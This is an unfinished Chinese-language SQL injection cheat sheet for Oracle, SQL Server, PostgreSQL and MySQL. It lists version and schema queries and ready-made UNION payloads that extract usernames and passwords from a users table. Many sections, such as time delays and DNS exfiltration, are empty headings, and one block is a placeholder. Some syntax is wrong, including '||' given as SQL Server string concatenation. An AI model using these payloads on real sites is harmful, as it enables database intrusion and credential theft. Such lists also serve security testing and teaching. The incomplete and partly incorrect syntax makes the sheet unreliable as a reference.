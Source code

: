 # ✔️ SQL注入CheatSheet

## Oracle

### 字符串连接

```sql
'aaa' || 'bbb'
```

### 截取字符串

```sql
SUBSTR('asdsfsdgf', 4, 2)
```

### 用注释截断查询

```sql
--
```

### 数据库类型和版本查询

```sql
SELECT * FROM v$version
SELECT banner FROM v$version
SELECT version FROM v$instance
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM all_tables
// 列出数据库中某个表中的所有列
SELECT * FROM all_tab_columns WHERE table_name = '表名'
```

### 布尔条件错误

```sql
// Some code
```

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露





## Microsoft

### 字符串连接

```sql
'aaa' || 'bbb'
```

### 截取字符串

```sql
SUBSTRING('fcsasff', 4, 2)
```

### 用注释截断查询

```sql
--
/*    */
```

### 数据库类型和版本查询

```sql
SELECT @@version
' UNION SELECT @@version--
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--

```

### 布尔条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露



## PostgreSQL

### 字符串连接

```sql
'aaa' || 'bbb'
```

### 截取字符串

```sql
SUBSTRING('sdaggrfsgrh', 4, 2)
```

### 用注释截断查询

```sql
--
/*   */
```

### 数据库类型和版本查询

```sql
SELECT version()
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--
```

### 布尔条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露



## MySQL

### 字符串连接

```sql
// 字符串之间是有空格的
'aaa' 'bbb'
CONCAT('aaa','bbb')
```

### 截取字符串

```sql
SUBSTRING('afdgghtr', 4, 2)
```

### 用注释截断查询

```sql
// -- 之后有空格
#
--
/*   */
```

### 数据库类型和版本查询

```sql
SELECT @@version
' UNION SELECT @@version--
```

### 查询数据库内容

```sql
// 列出数据库中所有的表
SELECT * FROM information_schema.tables
// 列出数据库中某个表中的所有列
SELECT * FROM information_schema.columns WHERE table_name = '表名'
// 实例
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users'--
'+UNION+SELECT+username,password+FROM+users--
```

### 布尔条件错误

### 通过错误消息提取数据

### 堆叠查询

### 时间延迟

### 有条件的时间延迟

### DNS查询

### DNS查询和数据泄露
